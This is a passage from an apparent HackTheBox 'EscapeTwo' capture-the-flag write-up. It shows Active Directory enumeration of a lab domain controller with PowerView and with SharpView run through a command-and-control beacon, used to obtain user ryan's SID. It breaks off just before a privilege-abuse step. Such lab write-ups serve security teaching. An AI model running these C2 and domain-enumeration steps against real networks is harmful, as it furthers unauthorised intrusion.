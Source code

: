 ```bash
➜  escapetwo powerview sequel.htb/'ryan'@DC01.sequel.htb --dc-ip 10.10.11.51
Password:
Logging directory is set to /root/.powerview/logs/sequel-ryan-dc01.sequel.htb
[2025-04-30 21:59:02] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAPS)-[DC01.sequel.htb]-[SEQUEL\ryan]
PV > 
```

we need ryan’s SID btw and we can get with

```bash
[04/30 22:00:30] beacon> execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_x86/SharpView.exe ConvertTo-SID -Name ryan
[04/30 22:00:31] [*] Tasked beacon to run .NET program: SharpView.exe ConvertTo-SID -Name ryan
[04/30 22:00:34] [+] host called home, sent: 845036 bytes
[04/30 22:00:38] [+] received output:
S-1-5-21-548670397-972687484-3496335370-1114
```

or or on powerView directly.

```bash
(LDAPS)-[DC01.sequel.htb]-[SEQUEL\ryan]
PV > Get-DomainUser -Identity ryan -Select ObjectSid
S-1-5-21-548670397-972687484-3496335370-1114
```
![alt text](../assets/images/escapetwo14.png)

And here. Now lets do abuse
